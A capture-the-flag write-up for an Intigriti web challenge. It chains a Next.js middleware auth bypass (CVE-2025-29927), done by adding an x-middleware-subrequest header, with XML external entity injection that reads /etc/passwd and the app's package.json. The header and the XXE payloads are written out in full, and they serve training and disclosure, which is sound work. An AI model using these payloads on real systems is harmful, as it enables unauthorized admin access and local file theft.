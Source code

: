 ```yaml
---
name: Intigriti April Challenge (2024)
authors: Bastien + CryptoCat
category: NextJS Middleware Auth Bypass (CVE-2025-29927), XXE
link: https://hackdonalds.intigriti.io
description: Writeup for the Intigriti April 2024 challenge 💥
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# 04-25: HackDonalds

| Name                                                                 | Authors                                               | Category                                           |
| -------------------------------------------------------------------- | ----------------------------------------------------- | -------------------------------------------------- |
| [Intigriti April Challenge (2024)](https://hackdonalds.intigriti.io) | Bastien + [CryptoCat](https://twitter.com/_CryptoCat) | NextJS Middleware Auth Bypass, CVE-2025-29927, XXE |

[![](https://img.youtube.com/vi/TODO/0.jpg)](https://www.youtube.com/watch?v=TODO "Next.js Middleware Auth Bypass (CVE-2025-29927) and XXE Local File Read")

## Challenge Description

> Find the FLAG and win Intigriti swag! 🏆

## Useful Resources

-   [Next.js Middleware Auth Bypass (CVE-2025-29927)](https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware)
-   [XML External Entity Injection (XXE)](https://portswigger.net/web-security/xxe)

## Solution

Bastien (BAS10) made most of this challenge. I (CryptoCat) just made the UI _cough_ ChatGPT _cough_ and fixed a few bugs/unintended solutions. It's a lot easier than the typical Intigriti monthly challenge - thankfully, as it came only a week after the crazy chain by 0x999 in the [March '25 challenge](https://bugology.intigriti.io/intigriti-monthly-challenges/0325). Therefore, this one was run more informally, without all the usual prizes, promo, domain name etc.

### Recon

The challenge did not come with source code, so we must follow a black box approach.

#### Site Functionality

The website doesn't appear to have a lot of functionality; there's a homepage and a food menu.

![](images/0.PNG)

![](images/1.PNG)

There's also an admin section which, as hackers, should be interesting to us.

![](images/2.PNG)

We might try some basic SQLi, default/common password etc. However, it will get us nowhere. Digging into the client-side code is also fairly unproductive - since it's a NextJS application, the code is hard to read and most of the important stuff is on the server-side.

![](images/3.PNG)

Wait, NextJS? Wasn't there some [crazy vulns](https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware) discovered for it recently 🤔 Let's check the version with Wappalyzer 👀

![](images/4.PNG)

Back to the advisory:

**CVE-2025-29927** affects **all Next.js versions from 11.1.4 up to 15.1.7** and allows **middleware bypass** via a specially crafted `x-middleware-subrequest` header.

Vulnerability confirmed ✅

### Next.js Middleware Auth Bypass (CVE-2025-29927)

Middleware in Next.js is commonly used for:

-   Authentication / Authorization
-   Rewrites / Redirects
-   Adding security headers (CSP, etc.)

This vulnerability allows attackers to **bypass middleware protections entirely**, leading to:

-   **Authorization bypass**
-   **Content Security Policy (CSP) bypass**
-   **DoS via Cache Poisoning (CPDoS)**

An auth bypass would be perfect for us! Maybe it can get us into the admin panel without knowing the password?

Let's request the `/admin` page while including the following HTTP header.

```json
x-middleware-subrequest: middleware
```

![](images/5.PNG)

Easy! Now we just need to include this header on each request to maintain our access 😎

![](images/6.PNG)

We can only click on the `Ice Cream Machines` option, which allows us to view the settings of various machines (notoriously buggy/broken at HackDonalds 👀)

![](images/7.PNG)

### XML External Entity Injection (XXE)

So, what do we have here? An XML config input that can be parsed.

![](images/8.PNG)

![](images/9.PNG)

Any CTF player or bug bounty hunter should know what to check for here; XXE 👇

**XXE (XML External Entity)** is a vulnerability that occurs when an XML parser **processes external entities** defined in XML documents. If not properly configured, it can be exploited to:

-   **Read local files** (`file:///etc/passwd`)
-   **Perform SSRF** (e.g., hitting internal services)
-   **DoS** via "billion laughs" attack
-   **Exfiltrate data** via out-of-band channels (OAST, DNS, etc.)

If we replace the parsed input with a payload to read `/etc/passwd`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE machine [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<machine>
  <id>1</id>
  <name>&xxe;</name>
  <temperature>-18</temperature>
  <mixLevel>75</mixLevel>
  <lastMaintenance>2025-03-15</lastMaintenance>
  <cleaningSchedule>Daily</cleaningSchedule>
</machine>
```

We successfully retrieve the file contents!

![](images/10.png)

#### Local File Read (Source Code Disclosure)

Where is the flag though? In a real world scenario, we might look for common files of interest (plenty of wordlists online). Since we know this is a NextJS app, why don't we ask ChatGPT what the common location is and what interesting files it might have?

![](images/11.png)

Nice, so we can try enumerating all of these files starting with the `/app/` directory 😼

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE machine [
  <!ENTITY xxe SYSTEM "file:///app/package.json">
]>
<machine>
  <id>1</id>
  <name>&xxe;</name>
  <temperature>-18</temperature>
  <mixLevel>75</mixLevel>
  <lastMaintenance>2025-03-15</lastMaintenance>
  <cleaningSchedule>Daily</cleaningSchedule>
</machine>
```

![](images/12.png)

There we have our flag: `INTIGRITI{XXE_1n_Ic3Cr34m_M4ch1n3s}` 🚩

Some players retrieved the same file from `/proc/self/cwd/package.json` or simply `package.json`

## Community Writeups

1. [TODO]
